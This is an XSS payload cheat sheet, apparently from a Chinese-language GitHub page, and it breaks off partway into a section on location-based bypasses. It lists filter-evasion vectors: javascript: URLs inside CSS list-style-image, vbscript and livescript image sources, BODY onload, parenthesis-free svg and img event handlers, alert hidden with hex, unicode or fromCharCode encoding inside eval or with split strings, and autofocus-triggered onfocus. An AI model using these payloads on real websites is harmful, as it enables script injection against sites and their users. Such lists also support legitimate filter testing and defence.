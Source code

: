 `<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>`

### List-style-image

为符号列表嵌入自定义图片的符号。它是只能工作在ie渲染引擎因为使用了javascript指令。这不是一个特别有用的xss向量。

`<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>`

### VBscript in an image

`<IMG SRC='vbscript:msgbox("XSS")'>`
### Livescript 
仅适用于老版本的Netscape)

``<IMG SRC="livescript:[code]">``
### BODY 标签
这个方法不需要使用任何”javascript:” 或 “<SCRIPT…” 的变体去实现xss攻击。Dan Crowley特别指出你可以额外的加入一个空格在等号之前(“οnlοad=” != “onload =”):

`<BODY ONLOAD=alert('XSS')>`


### 圆括号被过滤
```
<svg/onload=alert`7`>
<img/src onerror=alert&lpar;2&rpar;>
<img/onerror="javascript:window.onerror=alert;throw 7"src>
```

### 弹窗函数被过滤
```
eval("\x61\x6c\x65\x72\x74\x28\x31\x29")
eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029")
eval(String.fromCharCode(97,108,101,114,116,40,55,41))
top['al'+'ert'](7)
self['al'+'ert'](7)
window['al'+'ert'](7)
```
### 关于autofocus自动触发on事件
`<input onfocus=alert(7) autofocus>`
- onfocus: 元素获得焦点
- autofocus: 自动获得焦点
两者结合便能够实现自动触发弹窗, 但需要注意的是, 它会陷入一个死循环, 无限弹窗.
  


### 关于location的各种变形绕过关键字过滤

location中的内容会进入JS语法部分, 所以这里支持字符串拼接, JS各种编码等操作, 在浏览器解析的时候, 会自动将这部分内容进行解码。

location本身可以进行实体编码, js编码:
